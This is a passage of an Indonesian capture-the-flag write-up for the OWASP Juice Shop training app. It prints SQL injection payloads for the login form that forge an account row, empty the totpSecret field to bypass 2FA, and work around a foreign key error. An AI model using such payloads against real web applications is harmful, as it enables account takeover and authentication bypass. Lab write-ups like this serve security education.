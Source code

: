 Akun berhasil dibuat di hasil query, tetapi login gagal karena ada **2FA**.

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 11 03 44" src="https://github.com/user-attachments/assets/ec8d6c47-81f7-4b3d-882c-55a0dfaebf4d" />

---

### 4. Atasi 2FA (kosongkan `totpSecret`)

Agar tidak diminta token 2FA, set kolom `totpSecret` menjadi kosong:

```sql
admin' UNION SELECT * FROM (
  SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
  'aaaa', 'Administrator', '1234', '127.0.0.1',
  '/assets/public/images/uploads/default.svg',
  '', 0, 1, 2, 3
)--
```

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 11 13 16" src="https://github.com/user-attachments/assets/23dd23ce-1f0d-4037-8f86-860439c171ae" />

---

### 5. Perbaiki error Foreign Key

Muncul error:

```
FOREIGN KEY constraint failed
```

Hal ini karena `id = 67` tidak valid. Solusi → gunakan `id` yang lebih kecil, misalnya `20`.

Payload final:

```sql
admin' UNION SELECT * FROM (
  SELECT 20, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
  'aaaa', 'Administrator', '1234', '127.0.0.1',
  '/assets/public/images/uploads/default.svg',
  '', 0, 1, 2, 3
)--
```

<img width="1536" height="895" alt="Screenshot 2025-09-10 at 11 13 16" src="https://github.com/user-attachments/assets/004d5235-b1b1-4943-ae2e-b30fb1fd21b1" />

Akhirnya berhasil login sebagai **[acc0unt4nt@juice-sh.op](mailto:acc0unt4nt@juice-sh.op)**.

<img width="979" height="502" alt="Screenshot 2025-09-10 at 11 26 28" src="https://github.com/user-attachments/assets/f03460ed-ee9f-47fe-bca0-51a53386543b" />

---

## Catatan Penting

* Karena **schema `Users`** sudah diketahui, payload dapat dibuat langsung tanpa trial-error jumlah kolom.
* Error **2FA** muncul karena kolom `totpSecret` tidak kosong → solusinya dikosongkan.
* Error **Foreign Key constraint** menunjukkan `id` harus konsisten dengan constraint database.
* Database menggunakan **SQLite**, terlihat dari akses `sqlite_schema`.

